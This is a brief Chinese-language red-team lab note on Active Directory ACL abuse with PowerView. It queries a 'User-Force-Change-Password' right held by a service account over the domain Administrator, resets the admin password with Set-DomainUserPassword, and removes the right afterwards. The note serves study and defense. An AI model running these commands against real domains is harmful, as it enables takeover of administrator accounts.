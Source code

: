 powerview查询：

```
get-objectacl -resolveguids | ? {($_.securityidentifier -eq "S-1-5-21-1359007890-1682372173-1631803504-1126") -and ($_.objectacetype -eq "User-Force-Change-Password")}
```

```powershell
PS C:\Users\Administrator\Desktop> get-objectacl -resolveguids | ? {($_.securityidentifier -eq "S-1-5-21-1359007890-1682372173-1631803504-1126") -and ($_.objectacetype -eq "User-Force-Change-Password")}


AceQualifier           : AccessAllowed
ObjectDN               : CN=Administrator,CN=Users,DC=redteam,DC=red
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
ObjectSID              : S-1-5-21-1359007890-1682372173-1631803504-500
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-1359007890-1682372173-1631803504-1126
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0
```



#### 复现

sqlserver 用户操作：

```powershell
Import-Module .\Powerview.ps1
```

```powershell
PS C:\Users\sqlserver\Desktop> $NewPassword = ConvertTo-SecureString 'Admin12345' -AsPlainText -Force
PS C:\Users\sqlserver\Desktop> Set-DomainUserPassword -Identity 'administrator' -AccountPassword $NewPassword
```



结果域管的密码被我们重置为 了 `Admin12345`



还原，域控删除 sqlserver 的修改管理员密码的权限

```powershell
Remove-DomainObjectAcl -TargetIdentity administrator -PrincipalIdentity sqlserver -Rights ResetPassword -Verbose
```
